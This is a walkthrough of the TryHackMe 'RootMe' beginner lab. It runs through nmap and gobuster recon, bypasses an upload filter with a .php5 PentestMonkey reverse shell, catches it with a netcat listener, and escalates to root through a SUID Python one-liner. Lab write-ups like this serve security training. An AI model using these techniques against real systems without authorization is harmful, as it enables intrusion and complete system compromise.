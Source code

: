 # TryHackMe - RootMe Writeup

> **Challenge**: RootMe  
> **Description**: A beginner-friendly CTF — can you root me?  

---

## 🖥️ Deploying the Machine
I started by deploying the machine using the **Start Machine** button on TryHackMe.

---

## 🔍 Reconnaissance

### Port Scanning
The first step was to identify open ports on the target:

```bash
nmap -sV -p- <target-ip>
````

This revealed the services running and answered the first three questions of the reconnaissance section.

### Directory Enumeration

Next, I enumerated hidden directories using **gobuster**:

```bash
gobuster dir -u http://<target-ip> -w /usr/share/wordlists/dirb/common.txt
```

This discovered an upload directory, which was the answer to the last reconnaissance question.

---

## 🐚 Getting a Shell

### Upload Form Exploitation

While exploring the upload form:

* Uploading a simple `.sh` script didn’t work.
* Uploading `.php` was blocked.

After some trial and error, I used a **PentestMonkey PHP Reverse Shell**.
I changed:

* **IP** → my attack machine’s `tun0` IP
* **Port** → `8080`

To bypass the filter, I renamed the file extension to `.php5` and uploaded it.

### Listener Setup

On my Kali machine, I started a listener:

```bash
nc -lvnp 8080
```

Then, visiting `http://<target-ip>/uploads/shell.php5` triggered the reverse shell.

### Shell Stabilization

Once I had the shell, I upgraded it for stability:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
stty raw -echo; fg
reset
export TERM=xterm
```

### User Flag

To find the user flag:

```bash
find / -name user.txt 2>/dev/null
cat /path/to/user.txt
```

✅ Obtained: `THM{<redacted>}`

---

## ⚡ Privilege Escalation

### Finding SUID Binaries

I looked for SUID binaries with:

```bash
find / -perm -4000 -type f 2>/dev/null
```

Among the results, **`/usr/bin/python`** stood out as unusual.

### Exploiting Python SUID

Referring to [GTFOBins](https://gtfobins.github.io/#+suid), I found the exploit for Python SUID binaries.

Running the exploit:

```bash
/usr/bin/python -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

This granted **root access**.

### Root Flag

Finally, I retrieved the root flag:

```bash
cat /root/root.txt
```

✅ Obtained: `THM{<redacted>}`

---

## 🎯 Conclusion

This was a great beginner CTF that taught:

* Recon with **nmap** and **gobuster**
* File upload bypass using `.php5`
* Reverse shell handling & stabilization
* Privilege escalation via **SUID Python exploit**

Rooted successfully 🚩

```